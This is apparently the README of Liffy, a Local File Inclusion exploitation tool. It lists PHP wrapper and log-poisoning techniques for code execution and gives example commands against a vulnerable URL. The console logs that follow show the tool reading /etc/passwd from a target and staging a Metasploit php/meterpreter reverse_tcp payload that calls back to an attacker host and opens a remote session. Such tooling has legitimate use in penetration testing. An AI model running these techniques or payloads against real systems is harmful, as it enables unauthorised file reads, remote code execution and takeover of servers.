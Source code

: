 Liffy
=====

Liffy is a Local File Inclusion Exploitation tool.  

Current features include: 

  - data:// for code execution
  - expect:// for code execution
  - input:// for code execution
  - filter:// for arbitrary file reads
  - /proc/self/environ for code execution in CGI mode
  - Apache access.log poisoning
  - Linux auth.log SSH poisoning
  - Direct payload delivery with no stager
  - Support for absolute and relative paths 
  - Support for cookies

! I have had issues with access log poisoning on current versions of Apache.  This not an issue with the payload delivery and or poisoning.  This is more of an issue with the request after the poisoning to kick off your shell.  This may require a browser refresh. !

Install
=======

Liffy requires the following libraries: requests, argparse, blessings, urlparse, daemon

*Update* - Liffy now has built-in web serving functionality for all techniques that use the staged approach.  This is built upon Python's simpleHTTPServer module, and is being daemonized once spawned as a process within core.py.  I have had some issues with socket reuse and the child process not being killed correctly, so QA would be appreciated, and or suggestions on how to design it better. 


Example Usage 
==============

```
./liffy --url http://target/pdfs/vulnerable.php?= --data
./liffy --url http://target/pdfs/vulnerable.php?= --data --nostager



ruckus:liffy rotlogix$ python liffy.py --url http://10.0.0.11/vuln/lfi.php?file= --filter


    .____    .__  _____  _____
    |    |   |__|/ ____\/ ____\__.__.
    |    |   |  \   __\   __<   |  |
    |    |___|  ||  |   |  |  \___  |
    |_______ \__||__|   |__|  / ____| v1.2
        \/                \/


[2014-08-03 19:36:33.002626] Checking Target: http://10.0.0.11/vuln/lfi.php?file=
[2014-08-03 19:36:33.002722] ......................................................................
[2014-08-03 19:36:33.791168] Target URL Looks Good!
[2014-08-03 19:36:33.791210] Filter Technique Selected!
[2014-08-03 19:36:33.791336] Please Enter File To Read: /etc/passwd
[2014-08-03 19:36:38.319685] Decoded: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-
data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-
Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false mysql:x:102:105:MySQL
Server,,,:/nonexistent:/bin/false
messagebus:x:103:106::/var/run/dbus:/bin/false
whoopsie:x:104:107::/nonexistent:/bin/false
landscape:x:105:110::/var/lib/landscape:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin



    .____    .__  _____  _____
    |    |   |__|/ ____\/ ____\__.__.
    |    |   |  \   __\   __<   |  |
    |    |___|  ||  |   |  |  \___  |
    |_______ \__||__|   |__|  / ____| v1.2
        \/                \/


[2014-08-03 19:39:33.674202] Checking Target: http://10.0.0.11/vuln/lfi.php?file=
[2014-08-03 19:39:33.674297] ......................................................................
[2014-08-03 19:39:34.454758] Target URL Looks Good!
[2014-08-03 19:39:34.454795] Data Technique Selected!
[2014-08-03 19:39:34.454877] Please Enter Host For Callbacks: 10.0.0.4
[2014-08-03 19:39:37.112427] Please Enter Port For Callbacks: 6666
[2014-08-03 19:39:38.597878] Generating Wrapper
[2014-08-03 19:39:38.597955] ......................................................................
[2014-08-03 19:39:39.347935] Success!
[2014-08-03 19:39:39.348007] Generating Metasploit Payload
[2014-08-03 19:39:39.348059] ......................................................................
[2014-08-03 19:39:46.289658] Generated Metasploit Resource File
[2014-08-03 19:39:46.289704] Load Metasploit: msfconsole -r php_listener.rc
[2014-08-03 19:39:46.289734] Starting Web Server ...
[2014-08-03 19:39:46.289750] ......................................................................
[2014-08-03 19:39:47.049321] Press Enter To Continue When Your Metasploit Handler is Running ...


[*] Processing php_listener.rc for ERB directives.
resource (php_listener.rc)> use multi/handler
resource (php_listener.rc)> set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
resource (php_listener.rc)> set LHOST 10.0.0.4
LHOST => 10.0.0.4
resource (php_listener.rc)> set LPORT 6666
LPORT => 6666
resource (php_listener.rc)> set ExitOnSession false
ExitOnSession => false
resource (php_listener.rc)> exploit -j
[*] Exploit running as background job.

[*] Started reverse handler on 10.0.0.4:6666
[*] Starting the payload handler...
msf exploit(handler) > [*] Sending stage (40551 bytes) to 10.0.0.11
[*] Meterpreter session 1 opened (10.0.0.4:6666 -> 10.0.0.11:52410) at 2014-08-03 19:40:39 -0700
msf exploit(handler) >

```
